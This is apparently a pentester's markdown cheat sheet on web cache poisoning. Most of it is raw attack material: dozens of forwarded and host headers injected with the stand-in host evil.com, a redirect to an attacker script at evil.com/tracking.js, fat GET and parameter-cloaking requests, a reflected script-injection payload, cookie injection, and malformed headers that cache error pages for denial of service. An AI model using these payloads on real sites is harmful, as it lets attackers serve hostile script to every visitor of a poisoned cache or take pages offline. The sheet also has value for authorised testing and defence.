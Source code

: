 # Cache Poisoning

> Header Response: X-Cache: hit, Body Response: evil.com

## Header Inject
```http
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: nothttps
X-Forwarded-Server: evil.com
X-Host: evil.com
\: evil.com
User-Agent: evil.com
X-Original-Url: evil.com
X-Forwarded-Proto: evil.com
X-Original-URL: evil.com
X-Get-Cache-Key: evil.com
Accept-Version: evil.com
Acunetix-Header: evil.com
Api-Version: evil.com
Fastly-Client-Ip: evil.com
Fastly-Ff: evil.com
Fastly-Host: evil.com
Fastly-Ssl: evil.com
Trailer: evil.com
X-Amz-Server-Side-Encryption: evil.com
X-forwarded-Prefix: evil.com
X-Original-Host: evil.com
Handle: evil.com
X-Rewrite-url: evil.com
Authorization: evil.com
X-Amz-website-Redirect-Location: evil.com
X-Http-Method-Override: evil.com
X-Forwarded-Proto: evil.com
Capitalized host header: evil.com
Content-Type: evil.com
```
### Location Attack
```http
Header Request
X-Forwarded-Scheme: http
X-Forwarded-Prefix: evil.com
```
```http
Header Response
Location: http://evil.com/tracking.js
```

### Fat GET Request
```http
GET /js/geolocate.js?callback=setCountryCookie
callback=arbitraryFunction
```
```http
HTTP/1.1 200 OK
BODY
arbitraryFunction({"country" : "United Kingdom"})
```

### Parameter Cloaking
```http
GET /?example=123?excluded_param=bad-stuff-here
```
### Parameter Parsing Quirks
```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```
### URL Normalization
```http
GET /random</p><script>alert(1)</script>
```
```http
HTTP/1.1 404 not found
BODY
<p>
  File /random not found
</p>
</p>
  <script>alert(1)
</script>
```

## Cookie Inject
```http
Cookie: feHost=something/evil.com
```

## DOS attack
```http
X-Forwarded-Port: 123
X-Forwarded-Port: 123 
Transfer-Encoding: 123
zTRANSFER-ENCODING: dgsht --> HTTP/1.1 501 NOT_IMPLEMENTED
```
```http
Header Response
HTTP/2 400
X-Cache: hit
```

## Burp Suite Extension
Guess Headers!
Guess Eviriting!
